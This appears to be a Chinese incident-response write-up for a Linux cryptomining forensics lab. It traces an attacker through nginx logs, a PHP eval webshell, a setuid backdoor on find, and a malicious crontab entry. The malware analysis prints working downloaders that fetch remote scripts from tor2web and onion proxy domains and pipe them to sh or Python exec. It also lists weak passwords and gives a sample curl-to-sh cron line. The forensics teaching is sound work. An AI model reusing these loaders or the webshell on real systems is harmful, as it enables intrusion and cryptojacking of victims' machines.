#  linux实战-挖矿

## 一、简介

靶机名：linux实战-挖矿

靶机账号/密码：root websecyjxy web 端口为 8081

难度-中级偏上

# 二、题目

1、黑客的IP是？ flag格式：flag{黑客的ip地址}，如：flag{127.0.0.1}  
2、黑客攻陷网站的具体时间是？ flag格式：flag{年-月-日 时:分:秒}，如：flag{2023-12-24 22:23:24}  
3、黑客上传webshell的名称及密码是？ flag格式：flag{黑客上传的webshell名称-webshell密码}，如：flag{webshell.php-pass}  
4、黑客提权后设置的后门文件名称是？ flag格式：flag{后门文件绝对路径加上名称}，如：flag{/etc/passwd}  
5、对黑客上传的挖矿病毒进行分析，获取隐藏的Flag

# 三、WriteUp

‍

### 一、前言

**题目链接：**​**[第五章 linux实战-挖矿](https://xj.edisec.net/challenges/48)**

‍

**什么是Liunx挖矿？**

Linux挖矿指的是利用Linux操作系统下的计算资源进行加密货币（如比特币、以太坊等）的挖掘（Mining）活动。

**1. 挖矿的基本概念**

挖矿是通过计算复杂的数学问题来验证和记录加密货币交易的过程。矿工（挖矿者）提供计算能力来维护区块链网络的安全性，并因此获得加密货币作为奖励。挖矿过程需要大量的计算能力，因此通常使用专门的硬件（如ASIC矿机）或者高性能的计算设备。

**2. Linux挖矿的优势**

* **开源和免费**：Linux操作系统是开源的，不需要支付许可证费用，这降低了挖矿的运营成本。
* **稳定性和性能**：Linux以其高稳定性和性能著称，适合长时间运行的挖矿作业。
* **资源消耗低**：与其他操作系统相比，Linux系统消耗的系统资源相对较少，可以将更多资源用于挖矿计算。

**3. Linux挖矿的常见工具和软件**

* **挖矿软件**：常用的挖矿软件有CGMiner、BFGMiner、Xmrig、Claymore等。这些软件可以通过命令行或者配置文件进行控制和管理。
* **矿池**：矿工可以选择加入矿池，通过与其他矿工共享计算资源来提高挖矿效率。常见的矿池有AntPool、F2Pool、Slush Pool等。
* **管理工具**：有一些工具可以帮助管理挖矿活动，比如监控挖矿进度、调整挖矿参数、处理故障等。常见的管理工具有MinerGate、Awesome Miner等。

**4. 恶意挖矿**

近年来，恶意挖矿（cryptojacking）成为了网络安全的一大威胁。攻击者利用恶意软件入侵Linux服务器，利用受害者的计算资源进行挖矿。常见的恶意挖矿手段包括：

* **利用漏洞**：攻击者利用系统或应用程序中的漏洞，植入挖矿恶意软件。
* **钓鱼攻击**：通过钓鱼邮件或者恶意链接诱导用户下载和执行挖矿恶意软件。
* **木马和蠕虫**：通过木马或者蠕虫程序在网络中传播挖矿恶意软件。

**总结**

Linux挖矿是一种利用Linux操作系统进行加密货币挖掘的活动，具有成本低、稳定性高等优势。但是，也需要注意防范恶意挖矿行为，保护系统的安全性。

‍

### 二、参考文章

[第五章 - Linux 实战 - 挖矿](https://nlrvana.github.io/%E7%AC%AC%E4%BA%94%E7%AB%A0-linux%E5%AE%9E%E6%88%98-%E6%8C%96%E7%9F%BF/)

[linux实战-挖矿](https://www.cnblogs.com/NoCirc1e/p/18165203)

### 三、步骤（解析）

##### 准备工作#1.0

使用Xshell与XFTP都同时连上靶机，因为这里我们都会用到，XFTP连上的同时把源码下载下来（这里的源码不像之前的直接是WWW目录，还需要我自己找一会），后面分析webshell时会用到，至于Xshell我们就正常分析；

XShell连接成功；

​​

**XFtp连接成功；（这里为了省点金币提前下载好源码，先直接找到web目录：/www/admin/websec_80/wwwroot）**

​​

**下载源码，右键传输，位置选一个自己能找到的即可；（web目录下：/www/admin/websec_80/wwwroot）**

​​

#### 步骤#1.1

##### 黑客的IP是？ flag格式：flag{黑客的ip地址}，如：flag{127.0.0.1}

解题思路

连接成功，问我们黑客的IP，那记录黑客地方也就只有日志，那要找到日志，我们这边有两种办法一种直接查找“.log”结尾，或者第二种直接找到web目录下的日志（这里就需要翻XFTP找到相对于的日志），还有一种就是直接找“.php”最多的地方，这三种方法都是可以找到日志，下面进行实践；

**1、定位“.log”找到web目录下日志：**

	find / -name "*.log"

​​

**前面这都是一些无关紧要的日志肯定不会记有黑客的IP，往下翻一点就发现了Nginx的目录；**

​​

> /www/admin/websec_80/log/nginx_access_2023-12-22.log  
> /www/admin/websec_80/log/nginx_access_2023-12-28.log  
> /www/admin/websec_80/log/nginx_access_2024-06-25.log

**2、定位“.php”同样可以找到web目录日志；**

	find / -name "*.php"

​​

**也是发现了网站的根目录：/www/admin/websec_80/wwwroot/**

这里其实也是之前为什么能发现web目录源码的原因；

**3、直接使用Xftp找到web目录下的Nginx日志进行传输并且分析**

​​

**Nginx日志简介**

1、Nginx是一个高性能的HTTP和反向代理服务器，广泛用于Web服务器。Nginx日志记录了服务器的运行情况和客户端的访问行为，是Web服务器管理和安全分析的重要工具。

2、Nginx日志是Web服务器的重要组成部分，通过日志可以监控、管理和优化服务器，确保其高效、安全运行。访问日志记录了所有客户端的请求，帮助分析流量和用户行为；错误日志记录了服务器运行中的错误，帮助快速定位和解决问题。

所以最后，不管那一种方法都是可以锁定黑客的IP，主要是请求太频繁了，所以IP也就特别多，一眼就看见了；

这里使用cat进行查看；

	cat nginx_access_2023-12-22.log

​​

发现特别多（眼睛要瞎了。。。。看着眼花）；

​​

**日志有很多，正常的根本就看不过来，那我们就可以筛选并且统计一下IP出现的次数，那既然植入了挖矿病毒肯定访问的IP次数最多，再不济肯定不少；**

	cut -d- -f 1 nginx_access_2023-12-22.log|uniq -c | sort -rn | head -20

命令分析：（其实这个命令用不用都无所谓，毕竟太明显了）

1. 从 `nginx_access_2023-12-22.log`​ 文件中提取每一行的第一个字段（IP 地址）。
2. 统计每个 IP 地址出现的次数。
3. 按照出现次数进行降序排序。
4. 显示出现次数最多的前 20 个 IP 地址。

总结；

**这个命令的主要目的是从** **​`nginx_access_2023-12-22.log`​**​ **文件中提取出访问日志中的 IP 地址，并统计每个 IP 地址的访问次数。然后，它按访问次数排序，并显示访问次数最多的前 20 个 IP 地址。**

得到；

​​

这下好了出来的都是同一个IP，那就母庸质疑了；

	flag{192.168.10.135}

#### 步骤#1.2

##### 黑客攻陷网站的具体时间是？ flag格式：flag{年-月-日 时:分:秒}，如：flag{2023-12-24 22:23:24}

解题思路

问我们黑客攻陷的具体时间，那我们首先需要清楚网站是什么，其实在之前的日志里面就看见很多条访问dede的访问记录，dede全 称：dedecms；（下面有介绍）

​​

所以我们直接尝试访问一下试试看；

	http://192.168.10.139/dede/

**不难看出基本都是以这个为中心向外衍生，所以我们可以尝试一下自己的IP加上dede试试看，其实了解dede的朋友就会知道这个是一基于PHP和MySQL开发的开源内容管理系统，广泛用于构建各类网站，包括企业门户、个人博客、电子商务等。**

1. **文件路径和请求**：

    * 在日志中，可以看到请求的路径中包含 `/dede/`​ 和 `/js/`​，例如 `/dede/js/codemirror.js`​ 和 `/dede/sys_repair.php`​。这些路径表明涉及到了DedeCMS的系统文件或功能模块。
2. **系统维护和开发**：

    * DedeCMS的系统维护和开发可能需要使用类似 `sys_repair.php`​ 这样的文件来进行系统修复或管理操作。管理员可能会定期检查和维护网站，确保其正常运行和安全性。
3. **安全性和维护**：

    * 如同任何CMS系统一样，DedeCMS的安全性对于保护网站免受未经授权的访问和攻击尤为重要。因此，管理员可能会定期更新系统、监控日志以及审查访问日志，以便及时发现和应对潜在的安全问题。
4. **关于JavaScript文件**：

    * JavaScript文件如 `codemirror.js`​ 和 `sql.js`​ 可能是用于实现网站的前端功能或特定插件。在开发和维护阶段，管理员可能会下载、更新或定制这些文件，以确保网站的正常运行和用户体验。

**综上所述，DedeCMS作为一种广泛使用的CMS系统，与提供的日志内容有关系，说明管理员或开发人员在维护和管理DedeCMS网站时的常规活动。**

所以我们直接尝试本地IP加上dede直接访问试试看；

​​

**一直没访问成功，后来发现原来是端口不同：**

> 简单来说就是如果Web服务器被配置为在非标准端口（如8081）上监听HTTP请求，则必须在URL中明确指定该端口（例如，`http://161.189.52.18:8081/dede`​），否则浏览器会默认使用端口80，导致连接失败。（难怪之前我说简介里特意写了端口8081）

​​

	161.189.201.250:8081/dede

得到；  
​​

一开始以为是爆破的，但是看见有个验证码发现不能绕过，后来直接挨个尝试一下弱口令得到；

> 用户名：admin
>
> 密码：12345678

**一进去就发现了安全提示，那我们点击修改；**

​​

**发现黑客添加了新的用户；（hacker）**

尝试提交一下这个添加用户的时间，发现正确；

	flag{2023-12-22 19:08:34}

总结：

**在系统用户管理功能发现黑客创建的hacker用户，登录时间即为黑客攻陷网站的时间；**

​​

###### 拓展1.1

常见弱口令集合；

**1. 简单的数字密码**

* **123456**
* **password**
* **12345678**
* **123456789**
* **12345**
* **123123**
* **000000**

**2. 常见的单词和短语**

* **qwerty**
* **letmein**
* **welcome**
* **admin**
* **iloveyou**
* **monkey**
* **abc123**

**3. 重复字符或模式**

* **aaaaaa**
* **111111**
* **asdfgh**
* **987654**
* **1q2w3e**

**4. 默认账户密码**

* **admin/admin**
* **admin/password**
* **root/root**
* **user/user**
* **guest/guest**

**5. 个人信息相关**

* **名字 + 出生年份**（如 john1980）
* **宠物的名字**（如 fluffy）
* **生日日期**（如 01011990）

**6. 简单替换密码**

	P@ssw0rd  
	Pa$$w0rd  
	Passw0rd

#### 步骤#1.3

##### 黑客上传webshell的名称及密码是？ flag格式：flag{黑客上传的webshell名称-webshell密码}，如：flag{webshell.php-pass}

解题思路

**题目问我们黑客上传的webshell的文件名还有密码是什么，查webshell最快又有效的方法就是找到源码并且下载丢进工具里面进行扫描，比手工找不要好太多，当然有工具的情况下是这样的，那之前我们就已经导出过web服务器的源码，这里我们直接丢进去即可；**

> 目录：/www/admin/websec_80/wwwroot

​​

**一会就扫出来了，&quot;已知后门&quot;，那就继续跟进，找到这个目录下的这个文件；**

​​

**右键记事本打开发现；**

	<?php  
	eval(gzuncompress(base64_decode('eJxLLUvM0VCJD/APDolWT85NUY/VtAYARQUGOA==')));  
	?>

我们来简单分析一下；

* **Base64 解码：**  使用 `base64_decode()`​ 函数对字符串 `'eJxLLUvM0VCJD/APDolWT85NUY/VtAYARQUGOA=='`​ 进行 Base64 解码。Base64 编码是一种将二进制数据转换为 ASCII 字符串的编码方式，便于在文本环境中传输数据。
* **Gzip 解压缩：**  使用 `gzuncompress()`​ 函数对解码后的数据进行 Gzip 解压缩。Gzip 是一种用于文件压缩的算法。
* **输出结果：**  使用 `echo`​ 函数将解压缩后的结果输出。

具体的解码和解压缩操作如下：

1. **Base64 解码：**  `'eJxLLUvM0VCJD/APDolWT85NUY/VtAYARQUGOA=='`​ 解码后得到一个二进制字符串。
2. **Gzip 解压缩：**  解码后的二进制字符串经过 `gzuncompress()`​ 解压缩，得到 `eval($_POST['cmd']);`​。

复制下来找个可以运行php代码的直接运行；（这里我用的kali，kali自带PHP代码运行）

运行得到密码；

​​

	flag{404.php-cmd}

**那有的人就要问了，为什么就可以确认cmd就是密码？**

**在Web安全中，特别是在PHP后门木马的情况下，将参数命名为**​**​`cmd`​**​**是因为它通常用于传递命令，这种做法被攻击者广泛使用来执行任意代码或命令。在**​**​`eval($_POST['cmd']);`​** ​**这种情况下，**​**​`cmd`​**​**并不是传统意义上的密码，但它起到了类似的作用，因为它允许攻击者向服务器发送任意命令来执行。这里的**​**​`cmd`​**​**充当了一个“后门”，使得只有知道这个参数并发送适当命令的人才能利用这个漏洞。**

所以严格来说也并不是密码，但是充当了密码的作用；

#### 步骤#1.4

##### 黑客提权后设置的后门文件名称是？ flag格式：flag{后门文件绝对路径加上名称}，如：flag{/etc/passwd}

解题思路

可以说这题四是来送福利的，为什么这样说捏?，如果了解一些Liunx基础命令的可能就知道liunx是可以查看历史命令从而分析，到底提权后的文件是什么；（没删历史 命令的情况下这样做无疑是最简单易懂的）

所以这里我们直接反手一个；

	history

​​

**一眼看过去就发现了这个特别的chmod，那我们简单来分析一下；**

	chmod 4775 /usr/bin/find

**文件权限与** **​`chmod`​**​

在Linux和类Unix系统中，文件权限由三部分组成：所有者（user），组（group），和其他人（others）。每一部分都包含读（r），写（w），执行（x）权限。权限可以用数字表示，例如：

* ​`4`​ 代表读 (`r`​)
* ​`2`​ 代表写 (`w`​)
* ​`1`​ 代表执行 (`x`​)

所以`7`​代表读、写、执行 (`rwx`​) 权限。

**命令分析**

​`chmod 4775 /usr/bin/find`​ 将 `/usr/bin/find`​ 文件的权限修改为 `4775`​。

* ​`4`​ 是 setuid 位。
* ​`7`​ 是所有者的权限（读、写、执行）。
* ​`7`​ 是组的权限（读、写、执行）。
* ​`5`​ 是其他用户的权限（读、执行）。

具体来说，这意味着：

* 设置 setuid 位 (`4`​)：任何用户运行 `/usr/bin/find`​ 时，都将以文件所有者（通常是root）的权限来执行。
* 所有者拥有 `rwx`​（读、写、执行）权限。
* 组用户拥有 `rwx`​（读、写、执行）权限。
* 其他用户拥有 `rx`​（读、执行）权限。

**总结**

运行 `chmod 4775 /usr/bin/find`​ 命令后：

* ​`/usr/bin/find`​ 将获得 setuid 权限，使任何用户在执行 `find`​ 命令时以文件所有者的权限运行（通常是root）。
* 这增加了系统被滥用或攻击的风险，不应在未经深思熟虑的情况下对系统文件设置 setuid 权限。

**所以不用怀疑了黑客提权后设置的后门文件就是find，那按照提交格式来：flag{/etc/passwd}**

	flag{/usr/bin/find}

可能会有人问既然是提权chomd，那上面那个文件怎么不是？

因为我尝试提交了发现不对。。。。

#### 步骤#1.5

##### 对黑客上传的挖矿病毒进行分析，获取隐藏的Flag

解题思路

让我们找到上传的挖矿病毒进行分析，那首先就是需要找到挖矿病毒在哪里吧？那话又说回来了咋才能找到挖矿病毒捏，其实这是有一套流程的，细说；

**查找挖矿病毒**

1. **检查CPU使用情况**: 挖矿病毒通常会占用大量的CPU资源。使用以下命令检查系统资源使用情况：

    ​`top htop`​

    查找异常的高CPU使用进程。
2. **检查网络连接**: 挖矿病毒会尝试连接到远程服务器进行挖矿。使用以下命令检查当前的网络连接：

    ​`netstat -antp lsof -i`​

    查找可疑的网络连接和对应的进程。
3. **检查运行的进程**: 查找异常的进程或未知的进程。使用以下命令：

    ​`ps aux`​

    查找不熟悉的进程，特别是那些以高权限运行的进程。
4. **检查计划任务**: 挖矿病毒可能会通过计划任务定期运行。使用以下命令检查计划任务：

    ​`crontab -l ls -la /etc/cron.*`​

    查找可疑的计划任务。
5. **检查系统日志**: 系统日志可以提供关于挖矿病毒活动的重要线索。检查以下日志文件：

    ​`/var/log/syslog /var/log/auth.log /var/log/messages`​

**检查开机启动项**

1. **检查系统服务**: 挖矿病毒可能会添加恶意服务。使用以下命令检查启动服务：

    ​`systemctl list-unit-files --type=service`​

    查找可疑的服务。
2. **检查启动项**: 挖矿病毒可能会添加启动项使其在系统启动时自动运行。使用以下命令检查启动项：

    ​`ls /etc/init.d/ ls /etc/rc*.d/ ls /etc/systemd/system/`​
3. **检查用户启动项**: 用户目录中的启动项也可能被利用。检查以下目录：

    ​`ls ~/.config/autostart/ ls ~/.config/systemd/user/`​
4. **使用自动化工具**: 使用安全工具和反恶意软件工具扫描系统。这些工具可以帮助检测和删除挖矿病毒：

    ​`chkrootkit rkhunter clamav`​

    安装并运行这些工具以检测恶意软件。

**总结**

**查找挖矿病毒需要多方面的检查，包括CPU使用情况、网络连接、运行的进程、计划任务和系统日志。检查开机启动项则需要查看系统服务、启动项和用户启动项。使用自动化工具可以进一步提高检测效率。**

基本上就是这一套流程（反正就是看这没有，那就去看那，找呗反正就那么点地方还能藏哪里？），那这题我们是在开启启动项里面发现了可疑任务；（etc/crontab）

​​

得到；

	SHELL=/bin/bash  
	PATH=/sbin:/bin:/usr/sbin:/usr/bin  
	MAILTO=root

	# For details see man 4 crontabs

	# Example of job definition:  
	# .---------------- minute (0 - 59)  
	# |  .------------- hour (0 - 23)  
	# |  |  .---------- day of month (1 - 31)  
	# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...  
	# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat  
	# |  |  |  |  |  
	# *  *  *  *  * user-name  command to be executed

	 */7 * * * * root R=$(shuf -i 1-29 -n 1);sleep ${R:-0};BP=*​*$(dirname "$*​ *(command -v yes)&quot;);BP=${BP:-&quot;/usr/bin&quot;};G1=&quot;curl&quot;;if [ $(curl --version 2&gt;/dev/null|grep &quot;curl &quot;|wc -l) -eq 0 ];thenG1=&quot;echo&quot;;for f in ${BP}/* ;  
	  do  
	    strings $f 2>/dev/null|grep -q "CURLOPT_VERBOSE" && G1="$f" && break;  
	  done;  
	fi;  
	G2="wget";  
	if [ $(wget --version 2>/dev/null|grep "wgetrc "|wc -l) -eq 0 ];then  
	  G2="echo";  
	  for f in ${BP}/*;  
	  do  
	    strings $f 2>/dev/null|grep -q "to <bug-wget@gnu.org>" && G2="$f" && break;  
	  done;  
	fi;  
	if [ $(cat /etc/hosts|grep -i "onion.\|timesync.su\|tor2web"|wc -l) -ne 0 ];then  
	  echo "127.0.0.1 localhost" > /etc/hosts >/dev/null 2>&1;  
	fi;  
	C=" -fsSLk --connect-timeout 26 --max-time 75 ";  
	W=" --quiet --tries=1 --no-check-certificate --connect-timeout=26 --timeout=75 ";  
	H="https://an7kmd2wp4xo7hpr";  
	T1=".tor2web.su/";  
	T2=".d2web.org/";  
	T3=".onion.sh/";  
	P="src/ldm";  
	($G1$C $H$T1$P||$G1 $C$H$T2$P||$G1$C $H$T3$P||$G2 $W$H$T1$P||$G2$W $H$T2$P||$G2 $W$H$T3$P)|sh &

那这里我们简单分析一下；

**这段crontab任务的目的是执行一个恶意脚本，可能用于下载和运行挖矿病毒。**

1. **每7分钟执行一次**：

    ​`*/7 * * * * root`​

    这条任务定义了一个每7分钟执行一次的计划任务，运行的用户是`root`​。
2. **随机延迟**：

    ​`R={R:-0};`​

    通过生成一个1到29之间的随机数并休眠该随机时间，避免所有受感染机器同时访问恶意服务器，增加隐蔽性。
3. **寻找**​**​`curl`​**​**命令**：

    ​`BP=(command -v yes)"); BP=(curl --version 2>/dev/null|grep "curl "|wc -l) -eq 0 ];then    G1="echo";   for f in f 2>/dev/null|grep -q "CURLOPT_VERBOSE" && G1="$f" && break;   done; fi;`​

    这段代码尝试找到`curl`​命令，如果没有安装`curl`​，则在指定目录中查找包含字符串`CURLOPT_VERBOSE`​的可执行文件。
4. **寻找**​**​`wget`​**​**命令**：

    ​`G2="wget"; if [ {BP}/*;   do      strings f" && break;   done; fi;`​

    这段代码尝试找到`wget`​命令，如果没有安装`wget`​，则在指定目录中查找包含字符串`to <bug-wget@gnu.org>`​的可执行文件。
5. **修改**​ **​`/etc/hosts`​**​**文件**：

    ​`if [ $(cat /etc/hosts|grep -i "onion.\|timesync.su\|tor2web"|wc -l) -ne 0 ];then    echo "127.0.0.1 localhost" > /etc/hosts >/dev/null 2>&1; fi;`​

    这段代码检查`/etc/hosts`​文件中是否包含与Tor相关的域名（如`onion.`​、`timesync.su`​、`tor2web`​），如果找到则重置`/etc/hosts`​文件，使其只包含`127.0.0.1 localhost`​，这可能是为了防止恶意软件被检测到。
6. **定义常量**：

    ​`C=" -fsSLk --connect-timeout 26 --max-time 75 "; W=" --quiet --tries=1 --no-check-certificate --connect-timeout=26 --timeout=75 "; H="https://an7kmd2wp4xo7hpr"; T1=".tor2web.su/"; T2=".d2web.org/"; T3=".onion.sh/"; P="src/ldm";`​

    这些常量定义了连接参数和目标URL的一部分。
7. **下载并执行恶意脚本**：

    ​`(C T1G1 HP||C T3G2 HP||W T2G2 HP)|sh &`​

    这段代码使用`curl`​或`wget`​从三个不同的域名下载恶意脚本并通过管道传递给`sh`​解释器执行。

**总结**

这段crontab任务会每7分钟执行一次，从指定的URL下载并运行一个恶意脚本。它具有以下特征：

* 使用`curl`​或`wget`​下载恶意脚本，具有较好的兼容性和隐蔽性。
* 随机延迟执行，增加隐蔽性。
* 通过重置`/etc/hosts`​文件，防止与Tor相关的域名被检测到。
* 目标URL指向了可能用于恶意活动（如挖矿）的服务器。

这种行为很典型，常见于挖矿病毒和其他恶意软件。

**木马名称为**​**​`ldm`​**​ **，为什么这样确定？**

**代码分析**

1. **URL路径的部分**:

    ​`P="src/ldm";`​

    在这段代码中，`P`​变量被赋值为`src/ldm`​。这个变量随后被用作下载URL的一部分：

    ​`(C T1G1 HP||C T3G2 HP||W T2G2 HP)|sh &`​

    在上述代码中，`T1$P`​、`T2$P`​、`T3$P`​构成了完整的下载URL。这意味着恶意脚本将从如下地址下载：

    * ​`https://an7kmd2wp4xo7hpr.tor2web.su/src/ldm`​
    * ​`https://an7kmd2wp4xo7hpr.d2web.org/src/ldm`​
    * ​`https://an7kmd2wp4xo7hpr.onion.sh/src/ldm`​
2. **文件名的惯例**: 恶意软件和木马通常使用不同的文件名来避免被检测，但从这个下载路径中，可以推测恶意软件可能使用了`ldm`​作为其名称或文件名的一部分。这种路径中的`ldm`​可能代表了恶意软件的实际名称。

**从代码行为推测**

恶意脚本的行为包括：

* 下载文件并执行：

  ​`(C T1G1 HP||C T3G2 HP||W T2G2 HP)|sh &`​

  这个行为表明下载的文件是可执行的或包含可执行的恶意代码。结合下载路径`src/ldm`​，可以合理推断文件名和恶意软件的名称可能是`ldm`​。

**其他方面**

恶意软件的名称有时会直接嵌入到其路径、文件名或其代码中，这些都是常见的惯例：

* **路径**​**​`src/ldm`​**​: `src`​通常代表源代码或资源文件目录，而`ldm`​可能是文件名或模块名，这在恶意软件中也是常见的命名方式。

**结论**

**综合上述分析，我们可以合理推测这个恶意软件的名称或其一部分是**​**​`ldm`​**​ **。尽管具体名称可能会有变化，但从代码中引用的路径和行为来看，**​**​`ldm`​**​**就是木马。**

那我们尝试定位一下具体位置；

	find / -name "ldm"

​​

跟进过去查看；

	/etc/.cache/ldm

​​

**别的巴拉巴拉一大堆或许可能不认识，但是这个我们肯定知道；**

	function e() {  
	    ${sudo} nohup python2 -c "import base64;exec(base64.b64decode('I2NvZGluZzogdXRmLTgKaW1wb3J0IGJhc2U2NAppbXBvcnQgdXJsbGliMgppbXBvcnQgc3NsCkhPU1Q9Imh0dHBzOi8vYW43a21kMndwNHhvN2hwciIKUlBBVEgxPSJzcmMvc2MiCmQxPUhPU1QrIi50b3Iyd2ViLnN1LyIrUlBBVEgxCmQzPUhPU1QrIi5vbmlvbi5zaC8iK1JQQVRIMQpkMj1IT1NUKyIudG9yMndlYi5pby8iK1JQQVRIMQpkZWYgbGQodXJsLCB0KToKICAgIHRyeToKICAgICAgICBjdHggPSBzc2wuY3JlYXRlX2RlZmF1bHRfY29udGV4dCgpCiAgICAgICAgY3R4LmNoZWNrX2hvc3RuYW1lID0gRmFsc2UKICAgICAgICBjdHgudmVyaWZ5X21vZGUgPSBzc2wuQ0VSVF9OT05FCiAgICBleGNlcHQgRXhjZXB0aW9uOgogICAgICAgIGN0eD1GYWxzZQogICAgaWYgY3R4OgogICAgICAgICAgIHBhZ2U9YmFzZTY0LmI2NGRlY29kZSh1cmxsaWIyLnVybG9wZW4odXJsLHRpbWVvdXQ9dCxjb250ZXh0PWN0eCkucmVhZCgpKQogICAgZWxzZToKICAgICAgICAgICBwYWdlPWJhc2U2NC5iNjRkZWNvZGUodXJsbGliMi51cmxvcGVuKHVybCx0aW1lb3V0PXQpLnJlYWQoKSkKICAgIHJldHVybiBwYWdlCnRyeToKICAgIHRyeToKICAgICAgICBwYWdlPWxkKGQxLCA0MSkKICAgICAgICBleGVjKHBhZ2UpCiAgICBleGNlcHQgRXhjZXB0aW9uOgogICAgICAgIHBhZ2U9bGQoZDIsIDQxKQogICAgICAgIGV4ZWMocGFnZSkKZXhjZXB0IEV4Y2VwdGlvbjoKICAgIHBhZ2U9bGQoZDMsIDQxKQogICAgZXhlYyhwYWdlKQogICAgcGFzcw=='))" >/dev/null 2>&1 &  
	    touch "${LPATH}.aYn0N29e2MItcV7Di2udY4Idnd0zOC6qsDf"  
	}

简单分析一下；

这段代码是恶意软件（挖矿病毒或木马）的安装脚本。它利用 Python2 解释器执行了一段经过 Base64 编码的脚本。以下是该代码的分析：

1. **Base64 解码**：

    * ​`exec(base64.b64decode(...))`​ 部分是将 Base64 编码的数据解码并执行。这是为了隐藏真正的恶意代码，使其不易被直接识别。

    > #coding: utf-8  
    > import base64  
    > import urllib2  
    > import ssl  
    > HOST="https://an7kmd2wp4xo7hpr"  
    > RPATE1="src/sc"  
    > d1=HOST+".tor2web.su/"+RPATE1  
    > d3=HOST+".onion.sh/"+RPATE1  
    > d2=HOST+".tor2web.io/"+RPATE1  
    > def ld(url, t):  
    > try:  
    > ctx = ssl.create_default_context()  
    > ctx.check_hostname = False  
    > ctx.verify_mode = ssl.CERT_NONE  
    > except Exception:  
    > ctx=False  
    > if ctx:  
    > page=base64.b64decode(urllib2.urlopen(url,timeout=t,context=ctx).read())  
    > else:  
    > page=base64.b64decode(urllib2.urlopen(url,timeout=t).read())  
    > return page  
    > try:  
    > try:  
    > page=ld(d1, 41)  
    > exec(page)  
    > except Exception:  
    > page=ld(d2, 41)  
    > exec(page)  
    > except Exception:  
    > page=ld(d3, 41)  
    > exec(page)  
    > pass
    >
2. **功能分析**：

    * **加载和执行远程脚本**：脚本通过 HTTPS 从多个不同的服务器（包括 `.tor2web.su`​、`.onion.sh`​、和 `.tor2web.io`​ 域名）下载并执行 Base64 编码的 Python 脚本。
    * **SSL 连接**：脚本使用了 SSL 连接，且禁用了证书验证。这意味着它可以连接到任意受信任或不受信任的服务器。
    * **多重尝试**：它尝试从第一个 URL 下载并执行脚本，如果失败则尝试第二个和第三个 URL。这样可以提高下载恶意代码的成功率。
3. **影响**：

    * **潜在危害**：该脚本可能下载并执行更多恶意代码，可能是挖矿软件、后门程序或其他恶意工具。
    * **隐蔽性**：使用 Base64 编码和 SSL 连接使得恶意代码更难被检测和分析。
4. **其他操作**：

    * ​`nohup`​ 和 `&`​ 使得该脚本在后台运行，并且在用户退出终端后继续执行。
    * ​`touch "${LPATH}.aYn0N29e2MItcV7Di2udY4Idnd0zOC6qsDf"`​ 这行代码创建了一个空文件，可能用于标记脚本的执行状态。

**总结**

**这段代码很明显是恶意代码，从远程服务器下载并执行隐藏的恶意脚本。它通过 SSL 连接和多重 URL 尝试来提高成功率，并使用 Base64 编码来隐藏实际内容。**

分析一下发现没啥有用的，那我们继续往下翻，又看见一个python的base脚本；

​  
**简单分析一下；（**​**[base64在线解码](https://www.toolhelper.cn/EncodeDecode/Base64)**​ **）**

	nohup python2 -c "import base64;exec(base64.b64decode('aW1wb3J0IHRpbWUKd2hpbGUgMToKICAgIHByaW50KCJmbGFne3dlYnNlY19UcnVlQDg4OCF9IikKICAgIHRpbWUuc2xlZXAoMTAwMCk='))" >/dev/null 2>&1

**这段代码使用** **​`nohup`​**​ **和** **​`python2`​**​ **在后台执行一段 Base64 编码的 Python 脚本，并将输出重定向到**  **​`/dev/null`​**​ **，使其不产生任何输出。**

1. **Base64 解码**：

    * 该代码中使用了 `base64.b64decode`​ 函数解码 Base64 编码的字符串 `'aW1wb3J0IHRpbWUKd2hpbGUgMToKICAgIHByaW50KCJmbGFne3dlYnNlY19UcnVlQDg4OCF9IikKICAgIHRpbWUuc2xlZXAoMTAwMCk='`​，

    解码得到；

    import time  
    while 1:
    print("flag{websec_True@888!}")
    time.sleep(1000)`
2. **解码后的 Python 脚本分析**：

    * ​`import time`​: 导入 `time`​ 模块。
    * ​`while 1:`​: 进入一个无限循环。
    * ​`print("flag{websec_True@888!}")`​: 每次循环打印字符串 `"flag{websec_True@888!}"`​。
    * ​`time.sleep(1000)`​: 每次循环后暂停 1000 秒（即约 16 分钟）。
3. **整体执行流程**：

    * ​`nohup`​：该命令确保脚本在后台运行，即使用户退出终端会话，脚本仍然继续执行。
    * ​`python2 -c "..."`​：使用 `python2`​ 解释器执行 `-c`​ 参数后的命令。
    * ​`import base64;exec(base64.b64decode('...'))`​：导入 `base64`​ 模块，解码并执行 Base64 编码的字符串。
    * ​`>/dev/null 2>&1`​：将标准输出和标准错误输出重定向到 `/dev/null`​，使得脚本不产生任何输出。

**总结**

这段代码使用 `nohup`​ 和 `python2`​ 在后台运行一个无限循环的 Python 脚本。该脚本每隔 1000 秒打印一次 `"flag{websec_True@888!}"`​，并且所有输出都被重定向到 `/dev/null`​，因此不会显示在终端或日志中。

所以答案就很明显了；

	flag{websec_True@888!}

###### 拓展1.2

**示例：检查cron作业**

​`crontab -l`​

示例输出可能是：

​`* * * * * curl -fsSL http://malicious.site/miner.sh | sh`​

这个cron作业每分钟下载并执行恶意脚本 `miner.sh`​。

**示例：检查系统服务**

​`systemctl list-unit-files --type=service`​

查找输出中不熟悉的服务，如：

​`miner.service enabled`​

可以使用以下命令禁用和删除该服务：

​`sudo systemctl disable miner.service sudo rm /etc/systemd/system/miner.service`​

‍

‍

# 四、flag

**1、黑客的IP是？ flag格式：flag{黑客的ip地址}，如：flag{127.0.0.1}**

	flag{192.168.10.135}

**2、黑客攻陷网站的具体时间是？ flag格式：flag{年-月-日 时:分:秒}，如：flag{2023-12-24 22:23:24}**

	flag{2023-12-22 19:08:34}

**3、黑客上传webshell的名称及密码是？ flag格式：flag{黑客上传的webshell名称-webshell密码}，如：flag{webshell.php-pass}**

	flag{404.php-cmd}

**4、黑客提权后设置的后门文件名称是？ flag格式：flag{后门文件绝对路径加上名称}，如：flag{/etc/passwd}**

	flag{/usr/bin/find}

**5、对黑客上传的挖矿病毒进行分析，获取隐藏的Flag**

	flag{websec_True@888!}
